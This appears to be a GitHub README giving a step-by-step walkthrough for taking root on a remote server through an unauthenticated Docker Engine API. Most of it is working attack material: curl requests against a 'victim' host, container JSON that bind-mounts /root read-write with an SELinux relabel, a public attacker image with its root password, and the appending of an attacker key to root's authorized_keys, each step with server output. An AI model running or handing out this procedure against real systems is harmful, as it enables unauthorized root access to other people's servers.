 ﻿
# Docker API Privilege Escalation
***

This document has the objective to explain a simple way to remotely make a privilege escalation in a Docker, using it's own Engine API service. 

During my analisys routine I manage to successfully make an attack, so I decided to share freely. 

I`ve made an image available containing a SSH service enabled in the  [Docker Hub](https://hub.docker.com/r/pype/privsshd/) to help in the attack (The image available it's huge, more than 200MB because of the Ubuntu base image. As soon as possible I will made available a smaller image).

PS: This attack explore a option available in the docker, without the need to utilize memory exploitation or similar way (As usually used to escape the container).
**PS2: This is only ONE of many ways to explore an server utilizing the docker API service.** If during my analysis I find others explore methods, I will post in this repository.

Any suggestions to improve the attack or to protect yourself, I'm available to listen to all of it and add to this document if appropriate.


## Engine API

*"The Engine API is an HTTP API served by Docker Engine. It is the API the Docker client uses to communicate with the Engine, so everything the Docker client can do can be done with the API."*

**By default this service don't use any authentication**, but this resource it's made available by the platform.

- [Docker Engine API](https://docs.docker.com/engine/api/v1.32/)
- [Authentication](https://docs.docker.com/engine/api/v1.32/#section/Authentication)

During the attack, we are going to utilize the parameters provided by the platform so this way we can explore the system and obtain privileged internal access.

## Exploitation
The main focus of the attack it's to be able to inject our public key inside the file *"authorized_keys"* from the root user in the server!


The exploration consist in six parts:

1. **Push the image in server**
2. **Configure a container with our image**
3. **Start the container**
4. **Connect to container SSH**
5. **Import public key in .ssh/authorized_keys in root directory**
6. **Finaly connect to SSH server with root access**

***

* **Push image in server**

The selected image for the attack need to have some kind the shell remote service available in the start, so this way we can connect to the container inside the server.

```bash
curl -XPOST "http://victim/images/create?fromImage=pype/privsshd"

< HTTP/1.1 200 OK
< Content-Type: application/json
< Server: Docker/1.12.6 (linux)
< Date: Sat, 06 Jan 2018 15:41:46 GMT
< Transfer-Encoding: chunked
< 
...
{"status":"Status: Image is up to date for docker.io/pype/privsshd:latest"}
```
In the example above I used the option to create an image from the official repository. There is [other methods](https://docs.docker.com/engine/api/v1.24/#32-images) to execute the same operation.

pype/privsshd -  The Image that I've made available to help in the documentation of the attack. 

* **Configure a container with our image**

For we to be able to inject our public key inside the file .ssh/authorized_key, we need access to the root directory in the Docker Server. For this we are going to utilize the option "Binds", this way we can select the volume of what is going to be shared between the server and our container. (Remember to configure the read and write option)

**SELINUX  *"Bypass"***

The Docker provides a mounting option capable of modify the SELINUX file or directory label shared with the container. With this option, it’s possible to mount privileged directory inside of our container (E.g.: /root/;/etc;/bin …).

We can send this option via API too, this way we can work around the SELINUX remotely .

 *"This affects the file or directory on the host machine itself and can have consequences outside of the scope of Docker."*

```json
"Binds":[  
      "/root/:/root/:rw,z"
      ]
``` 

Mais informações: [Configure-the-selinux-label](https://docs.docker.com/engine/admin/volumes/bind-mounts/#configure-the-selinux-label)


Supposing that our target server already has the port number 22 busy by it's own SSH service, we have to point another outgoing port for our connection with the container, we are going to configure the option "PortBindings" with "HostPort" in another port.
```json
{  
   "Image":"pype/privsshd",
   "Binds":[  
      "/root/:/root/:rw,z"
   ],
   "PortBindings":{  
      "22/tcp":[  
         {  
            "HostIp":"",
            "HostPort":"2233"
         }
      ]
   }
}
```
JSON it's the only format accepted by the platform, therefore configure the Content-Type of your requisition to this type of language.

```bash
curl -H "Content-Type: application/json" -d '{"Image":"pype/privsshd", "Binds": ["/root/:/root/:rw,z"],"PortBindings":{"22/tcp":[{"HostIp":"","HostPort":"2233"}]}}' -XPOST "http://victim/containers/create"

< HTTP/1.1 201 Created
< Content-Type: application/json
< Server: Docker/1.12.6 (linux)
< Date: Sat, 06 Jan 2018 16:03:34 GMT
< Content-Length: 90
< 
{"Id":"5a3c7f18d202f62...4789e781132495781f","Warnings":null}
```
If everything worked out, the requisition will return an ID and this will be the your container identifier 

* **Start the container**

Use the Identifier to start your container remotely.

```bash
curl -XPOST "http://victim/containers/5a3c7f18d202f62...4789e781132495781f/start" -v 

< HTTP/1.1 204 No Content
< Server: Docker/1.12.6 (linux)
< Date: Sat, 06 Jan 2018 22:29:46 GMT

```
Verify if the service was started with success in the target server.

```bash
~ » nc victim 2233
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
```

* **Connect to container SSH**

```bash
~ » ssh root@victim -p2233
root@victim password: 
root@5a3c7f18d202:~#
```

If you utilized my image **privsshd**, the root password it's: *screencast*.


* **Import public key in .ssh/authorized_keys in root directory**

Now you are free to inject your public key and...

```bash
root@5a3c7f18d202:~# ls .ssh/
authorized_keys  id_rsa  id_rsa.pub  known_hosts
root@5a3c7f18d202:~# echo "ssh-rsa AAAAB3NzaC1yc2EAAAAD.." >> .ssh/authorized_keys
``` 
* **Finaly connect to SSH server with root access**

```bash
~ » ssh root@victim -i key.rsa
[root@docker-server ~]# id
uid=0(root) gid=0(root) groups=0(root) 
[root@docker-server ~]# docker --version
Docker version 1.12.6, build ae7d637/1.12.6
```

Now you have privileged access inside the remote server. :)

***
References:

http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html

https://docs.docker.com/engine/api/v1.24

https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/



